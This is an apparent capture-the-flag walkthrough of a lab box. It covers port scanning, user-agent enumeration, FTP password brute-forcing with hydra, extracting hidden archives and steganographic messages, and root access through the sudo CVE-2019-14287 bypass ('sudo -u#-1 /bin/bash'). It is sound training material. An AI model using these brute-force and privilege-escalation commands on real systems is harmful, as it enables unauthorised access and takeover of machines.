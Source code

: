 Starting off with a normal scan: `nmap -sCV -v -oN` gives us information on 3 ports:

| Port   | Service               | Version       | Description                                        |
| ------ | --------------------- | ------------- | -------------------------------------------------- |
| 80/tcp | Apache httpd (Ubuntu) | 2.4.29        | Apache web server supporting GET HEAD POST OPTIONS |
| 22/tcp | ssh                   | OpenSSH 7.6p1 | SSH                                                |
| 21/tcp | ftp                   | vsftpd 3.0.3  | FTP served using vsftpd                            | 

Looking at the webserver, we need to send a codename as the `user-agent` in a request to access a secret page.

![[Pasted image 20231029150714.png]]

When we use `user-agent: R` we get a hint which suggests we are looking for a limited number of agents:
```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```

Using Berp Intruder, I iterated through the capitalised alphabet and what do you know... `user-agent: C` redirects us to a new page!
![[Pasted image 20231029151546.png]]

Now we know a possible username: `chris` we can attempt to brute-force the FTP credentials, using hydra we get out: `login: chris    password: crystal`.

Login in via FTP we can get 3 files (2 image files of aliens, and a text file containing a message to agent J):
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Doing an `exiftool cutie.png` suggests a warning that `Trailer data after PNG IEND chunk` exists. This is worth investigating as some data could be hidden here. Looking at the hex of this picture with `xxd cutie.png` we see a reference `To_agentR.txt`. It seems like there is a text file embedded in this image. Using `binwalk cutie.png` we can see there is a Zip archive hidden inside the image.

Once extracted we can see that inside the Zip is the `To_agentR.txt` file but it is locked behind a password. Time to brute force it.

Preparing with `zip2john 8702.zip > hash.txt` we can obtain the hash of the zip ready for `john hash.txt`. Revealing the file password is `alien`. Unlocking the file tells us:
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

Base64'ing that string reveals it as `Area51`. Looking into the other image, maybe something is hidden in there? Running `steghide extract -sf cute-alien.jpg -p Area51` we extract a `message.txt`, reading:
```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Interestingly we now have a new name and password... Maybe they also have an FTP login?
After trying to login via FTP it failed so maybe its an SSH login?

Successfully logged into SSH with `james` and `hackerrules!` . First we can find the user flag in the home dir. Finally privilege escalation is required to access the root dirs. Some information gathering of the system can point us in the right direction for finding a priv esc: 

`cat /etc/*-release`
```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.3 LTS"
NAME="Ubuntu"
VERSION="18.04.3 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.3 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```

`sudo -l`
```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
The `(ALL, !root) /bin/bash` seems interesting... What this is telling us is that the user cannot run `/bin/bash` as root `(!root)`. This is explitable under https://nvd.nist.gov/vuln/detail/CVE-2019-14287.

It suggests that the specification is:
```
root    ALL=(ALL:ALL) ALL
james   ALL=(ALL,!root) /bin/bash
```
With ALL specified it means that a user (james) can run /bin/bash as any user they wish. Therefore we can choose to run `/bin/bash` as the root user which will be allowed.

`sudo -u#-1 /bin/bash` in this version of sudo, specifying the user id as `-1` or `4294967295` are resolved to `0`, which is the user ID for `root`. 

Finally we have gained full root access and retrieved the final flag found under the `/root` dir.